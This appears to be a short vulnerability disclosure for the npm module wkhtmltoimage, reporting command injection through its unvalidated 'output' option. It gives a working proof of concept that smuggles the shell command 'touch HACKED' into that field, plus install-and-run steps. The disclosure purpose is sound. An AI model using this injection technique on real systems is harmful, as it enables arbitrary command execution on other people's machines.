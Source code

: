 # :bug: Description

The `wkhtmltoimage` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var wkhtmltoimage = require('wkhtmltoimage');
wkhtmltoimage.generate("test", {output:"test; touch HACKED; #"}, function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wkhtmltoimage # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
